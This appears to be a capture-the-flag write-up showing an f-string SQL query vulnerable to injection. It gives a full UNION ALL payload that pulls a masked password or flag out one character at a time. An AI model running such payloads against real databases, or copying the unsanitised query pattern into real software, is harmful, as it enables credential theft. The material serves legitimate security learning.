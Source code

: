 **this code is vulnerable to sql injection here:**

```python
    query = db.execute(f"SELECT password FROM table_{id} WHERE password LIKE '%{request.form['query']}%'")
    return f"""
    <h2>Your results:</h2>
    <ul>
    {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}
    </ul>
    <h3>Ready to make your guess?</h3>
    <form action="/guess" method="POST">
        <input type="hidden" name="id" value="{id}">
        <input type="text" name="password" placehoder="Password">
        <input type="submit" value="Guess">
    </form>
"""
```

because the request.from query isn't properly sanitized

and we can inject sql code.

now we can't simply insert `%` to solve this because

then the password is sent in this form here

` {"".join([f"<li>{row[0][0] + '*' * (len(row[0]) - 1)}</li>" for row in query.fetchall()])}`

which censors the last chars of the flag, **except the first one**.

after a bit i have come up with this idea of injecting sql that reads the flag one char by one, so bypassing the one char filter.

to do it i have created some python code that gets the correct table name and builds the payload.

here's the full payload:

```sql
%' UNION ALL SELECT substr(password,1,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,2,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,3,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,4,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,5,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,6,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,7,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,8,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,9,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,10,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,11,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,12,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,13,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,14,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,15,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,16,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,17,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,18,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,19,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,20,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,21,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,22,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,23,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,24,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,25,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,26,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,27,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,28,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,29,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,30,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,31,1) FROM table_5befc8ecc4866d2b UNION ALL SELECT substr(password,32,1) FROM table_5befc8ecc4866d2b-- -
```
